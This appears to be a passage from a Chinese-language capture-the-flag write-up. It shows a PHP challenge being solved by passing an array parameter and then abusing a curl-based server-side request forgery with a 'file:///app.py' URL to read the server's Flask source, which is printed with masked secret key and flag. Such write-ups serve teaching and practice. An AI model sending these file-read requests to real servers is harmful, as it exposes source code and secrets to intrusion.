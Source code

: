 ```python
    }catch (Error $x){
        highlight_file(__FILE__);
        highlight_string($x->getMessage());
    }

?> 
```

发现youhint，按照要求请求参数hint为数组，对应键值为`"your?", "mine!", "hint!!"`

```http
?hint[0]=your?&hint[1]=mine!&hint[2]=hint!!
```

得到信息，读取flag权限不够，且存在app.py
 ![在这里插入图片描述](assets/aa5f8a21efd8421b8371c114be6fe044.png)
 回到源码，看到由curl命令，尝试ssrf读取app.py
 （注意参数lolita得为数组格式，因为有`CURLOPT_HTTPHEADER`）

```
?url=file:///app.py&lolita[]=
```

app.py源码如下

```python
from flask import Flask, request, session, render_template, render_template_string 
import os, base64 
#from NeepuF1Le import neepu_files 
app = Flask(__name__) 
app.config['SECRET_KEY'] = '******' 
@app.route('/') 
def welcome(): 
    if session["islogin"] == True: 
        return "flag{***********************}" 
    app.run('0.0.0.0', 1314, debug=True)
```
